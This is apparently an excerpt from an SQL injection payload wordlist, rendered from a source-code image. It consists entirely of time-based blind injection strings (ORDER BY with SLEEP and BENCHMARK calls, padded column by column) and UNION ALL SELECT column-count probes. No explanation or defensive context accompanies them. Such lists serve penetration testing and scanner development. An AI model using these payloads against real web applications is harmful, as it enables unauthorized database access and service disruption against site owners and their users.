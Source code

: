      ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
     ORDER BY SLEEP(5)-- 
     ORDER BY 1,SLEEP(5)-- 
     ORDER BY 1,SLEEP(5),3-- 
     ORDER BY 1,SLEEP(5),3,4-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
     ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
     UNION ALL SELECT 1
     UNION ALL SELECT 1,2
     UNION ALL SELECT 1,2,3
     UNION ALL SELECT 1,2,3,4
     UNION ALL SELECT 1,2,3,4,5
     UNION ALL SELECT 1,2,3,4,5,6
     UNION ALL SELECT 1,2,3,4,5,6,7
     UNION ALL SELECT 1,2,3,4,5,6,7,8
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10